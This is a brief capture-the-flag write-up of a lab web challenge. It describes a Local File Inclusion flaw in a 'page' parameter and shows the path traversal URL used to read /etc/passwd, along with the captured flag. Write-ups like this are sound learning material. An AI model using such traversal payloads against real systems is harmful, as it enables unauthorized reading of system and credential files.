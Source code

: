 # **Description:**

The challenge presented a website with a **SIGN IN** button on the home page. Clicking on this button redirected to a login page with the following URL:

```
http://10.11.100.242/index.php?page=signin
```

This indicated that the page parameter was controlling the content displayed on the site.

---

## **Vulnerability:**

The application was vulnerable to **Local File Inclusion (LFI)**. By manipulating the `page` parameter, it was possible to include system files.

---

## **Exploitation:**

To confirm the vulnerability, I modified the `page` parameter and replaced `signin` with a typical file traversal payload:

```
http://10.11.100.242/index.php?page=../../../../../../../../etc/passwd
```

Upon sending the request, the response contained the following message:

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

This confirmed that the application was not properly validating user input, allowing access to sensitive system files.

---


